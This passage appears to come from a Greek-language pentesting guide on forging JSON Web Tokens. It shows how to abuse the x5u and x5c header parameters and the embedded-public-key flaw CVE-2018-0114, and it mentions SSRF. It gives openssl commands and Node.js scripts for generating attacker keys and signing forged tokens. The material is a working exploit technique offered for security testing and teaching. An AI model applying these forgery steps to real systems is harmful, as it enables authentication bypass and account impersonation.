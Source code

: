 Δοκιμάστε να **αλλάξετε αυτή την κεφαλίδα σε μια URL υπό τον έλεγχό σας** και ελέγξτε αν ληφθεί οποιοδήποτε αίτημα. Σε αυτή την περίπτωση, **θα μπορούσατε να παραποιήσετε το JWT**.

Για να κατασκευάσετε ένα νέο διακριτικό χρησιμοποιώντας ένα πιστοποιητικό που ελέγχετε, πρέπει να δημιουργήσετε το πιστοποιητικό και να εξάγετε τα δημόσια και ιδιωτικά κλειδιά:
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```
Μπορείτε να χρησιμοποιήσετε για παράδειγμα [**jwt.io**](https://jwt.io) για να δημιουργήσετε το νέο JWT με τα **δημιουργημένα δημόσια και ιδιωτικά κλειδιά και να δείξετε την παράμετρο x5u στο πιστοποιητικό .crt που δημιουργήθηκε.**

![](<../images/image (956).png>)

Μπορείτε επίσης να εκμεταλλευτείτε και τις δύο αυτές ευπάθειες **για SSRFs**.

#### x5c

Αυτή η παράμετρος μπορεί να περιέχει το **πιστοποιητικό σε base64**:

![](<../images/image (1119).png>)

Εάν ο επιτιθέμενος **δημιουργήσει ένα αυτο-υπογεγραμμένο πιστοποιητικό** και δημιουργήσει ένα πλαστό token χρησιμοποιώντας το αντίστοιχο ιδιωτικό κλειδί και αντικαταστήσει την τιμή της παραμέτρου "x5c" με το νεοδημιουργηθέν πιστοποιητικό και τροποποιήσει τις άλλες παραμέτρους, δηλαδή n, e και x5t τότε ουσιαστικά το πλαστό token θα γινόταν αποδεκτό από τον διακομιστή.
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -outattacker.crt
openssl x509 -in attacker.crt -text
```
### Ενσωματωμένο Δημόσιο Κλειδί (CVE-2018-0114)

Αν το JWT έχει ενσωματωμένο ένα δημόσιο κλειδί όπως στο παρακάτω σενάριο:

![](<../images/image (624).png>)

Χρησιμοποιώντας το παρακάτω script nodejs είναι δυνατόν να παραχθεί ένα δημόσιο κλειδί από αυτά τα δεδομένα:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
Είναι δυνατόν να δημιουργήσετε ένα νέο ιδιωτικό/δημόσιο κλειδί, να ενσωματώσετε το νέο δημόσιο κλειδί μέσα στο διακριτικό και να το χρησιμοποιήσετε για να δημιουργήσετε μια νέα υπογραφή:
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
Μπορείτε να αποκτήσετε το "n" και το "e" χρησιμοποιώντας αυτό το script nodejs:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
```